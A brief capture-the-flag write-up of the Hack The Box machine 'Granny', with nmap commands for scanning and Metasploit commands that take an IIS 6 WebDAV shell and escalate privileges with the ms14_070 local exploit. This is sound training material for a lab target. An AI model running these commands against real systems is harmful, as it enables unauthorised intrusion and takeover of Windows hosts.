







# Hack the box - Granny


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.15</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Apr 12</b>

___

## Port scanning

```
nmap -sC -sV -T4 -oA nmap 10.10.10.15
```



There ISS 6 web server running on this machine.

## Exploitation

We can run nmap again for checking vulnerabilities:

```
nmap -p 80 --script="*iis*" 10.10.10.15
```



WebDAV is ENABLED. We can try to exploit this vulnerability:



Great! We have a shell. Since we cannot check for current user, we can try migrating to process:



## Privilege escalation

Time to explore potential privilege escalation exploits:

```
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```



Machine is vulnerable to many exploits. 3rd one seems to work:

```
use exploit/windows/local/ms14_070_tcpip_ioctl
set session 1
run
```



## Capturing flags

Last thing to is to capture flags:

